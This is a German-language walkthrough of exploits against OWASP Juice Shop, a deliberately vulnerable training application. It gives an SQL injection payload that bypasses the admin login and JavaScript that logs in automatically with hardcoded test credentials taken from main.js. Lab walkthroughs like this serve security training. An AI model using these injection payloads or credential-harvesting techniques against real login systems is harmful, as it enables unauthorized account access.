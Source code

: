 # 🔓 Juice Shop Exploits - Detaillierte Lösungswege

## 1. SQL Injection - Admin Login Bypass

### 📝 Beschreibung
Umgehung der Login-Authentifizierung durch SQL Injection. Diese Schwachstelle ermöglicht es, sich ohne gültige Anmeldedaten als Administrator anzumelden.

### 🛠️ Exploit
```sql
Email: admin@juice-sh.op'--
Passwort: (beliebig)
```

### 💡 Erklärung
- Das `'--` beendet das SQL-Statement vorzeitig
- Der Rest der Query (Passwort-Überprüfung) wird als Kommentar ignoriert
- Resultierende Query: `SELECT * FROM Users WHERE email = 'admin@juice-sh.op'--' AND password = '...'`

### 🔍 Alternative: Test Credentials aus main.js

```javascript
// Hardcoded Test-Credentials in der main.js gefunden
const testingUsername = "testing@juice-sh.op";
const testingPassword = "IamUsedForTesting";

// Einfacher Login mit Test-Account
function loginWithTestCredentials() {
    console.log('🧪 Using hardcoded test credentials from main.js...');
    
    // Navigiere zur Login-Seite
    window.location.hash = '#/login';
    
    // Warte bis Seite geladen ist
    setTimeout(() => {
        const emailField = document.querySelector('input[type="email"]');
        const passwordField = document.querySelector('input[type="password"]');
        const loginButton = document.querySelector('button[type="submit"]');
        
        if (emailField && passwordField && loginButton) {
            // Fülle Test-Credentials ein
            emailField.value = testingUsername;
            passwordField.value = testingPassword;
            
            // Triggere Events für Angular
            emailField.dispatchEvent(new Event('input', { bubbles: true }));
            passwordField.dispatchEvent(new Event('input', { bubbles: true }));
            
            console.log('📧 Email:', testingUsername);
            console.log('🔐 Password:', testingPassword);
            
            // Submit Login
            loginButton.click();
            
            console.log('✅ Login attempted with test credentials');
        } else {
            console.log('❌ Login form elements not found');
        }
    }, 1000);
}
```